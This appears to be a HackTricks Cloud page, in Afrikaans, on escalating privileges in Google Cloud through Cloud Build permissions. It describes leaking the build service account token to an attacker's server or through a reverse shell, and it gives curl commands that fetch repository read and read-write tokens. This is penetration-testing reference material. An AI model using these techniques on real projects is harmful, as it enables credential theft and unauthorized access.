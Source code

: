 # GCP - Cloudbuild Privesc

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudbuild

Vir meer inligting oor Cloud Build kyk:

{% content-ref url="../gcp-services/gcp-cloud-build-enum.md" %}
[gcp-cloud-build-enum.md](../gcp-services/gcp-cloud-build-enum.md)
{% endcontent-ref %}

### `cloudbuild.builds.create`

Met hierdie toestemming kan jy **'n cloud build indien**. Die cloudbuild masjien sal in sy lêerstelsel **standaard 'n token van die cloudbuild Service Account** hê: `<PROJECT_NUMBER>@cloudbuild.gserviceaccount.com`. Jy kan egter **enige diensrekening binne die projek in die cloudbuild konfigurasie aandui**.\
Daarom kan jy net die masjien laat uitvloe na jou bediener die token of **'n omgekeerde shell binne dit kry en die token vir jouself kry** (die lêer wat die token bevat kan verander).

Jy kan die oorspronklike eksploit script [**hier op GitHub**](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudbuild.builds.create.py) vind (maar die plek waar dit die token vandaan neem het nie vir my gewerk nie). Kyk dus na 'n script om die [**skepping, eksploit en skoonmaak van 'n kwesbare omgewing hier**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.sh) te outomatiseer en 'n python script om 'n omgekeerde shell binne die cloudbuild masjien te kry en [**dit hier te steel**](https://github.com/carlospolop/gcp_privesc_scripts/blob/main/tests/f-cloudbuild.builds.create.py) (in die kode kan jy vind hoe om ander diensrekeninge te spesifiseer)**.**

Vir 'n meer diepgaande verduideliking, besoek [https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/](https://rhinosecuritylabs.com/gcp/iam-privilege-escalation-gcp-cloudbuild/)

### `cloudbuild.builds.update`

**Potensieel** met hierdie toestemming sal jy in staat wees om **'n cloud build op te dateer en net die diensrekening token te steel** soos dit met die vorige toestemming uitgevoer is (maar ongelukkig kon ek tydens die skryf hiervan nie enige manier vind om daardie API aan te roep nie).

TODO

### `cloudbuild.repositories.accessReadToken`

Met hierdie toestemming kan die gebruiker die **lees toegang token** kry wat gebruik word om toegang tot die repository te verkry:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadToken"
```
{% endcode %}

### `cloudbuild.repositories.accessReadWriteToken`

Met hierdie toestemming kan die gebruiker die **lees- en skryftoegangstoken** verkry wat gebruik word om toegang tot die repository te verkry:

{% code overflow="wrap" %}
```bash
curl -X POST \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
-H "Content-Type: application/json" \
-d '{}' \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>/repositories/<repo-id>:accessReadWriteToken"
```
{% endcode %}

### `cloudbuild.connections.fetchLinkableRepositories`

Met hierdie toestemming kan jy **die repos verkry waartoe die verbinding toegang het:** 

{% code overflow="wrap" %}
```bash
curl -X GET \
-H "Authorization: Bearer $(gcloud auth print-access-token)" \
"https://cloudbuild.googleapis.com/v2/projects/<PROJECT_ID>/locations/<LOCATION>/connections/<CONN_ID>:fetchLinkableRepositories"
```
{% endcode %}

{% hint style="success" %}
Leer & oefen AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Opleiding AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Leer & oefen GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Opleiding GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Ondersteun HackTricks</summary>

* Kyk na die [**subskripsie planne**](https://github.com/sponsors/carlospolop)!
* **Sluit aan by die** 💬 [**Discord groep**](https://discord.gg/hRep4RUj7f) of die [**telegram groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Deel hacking truuks deur PRs in te dien na die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
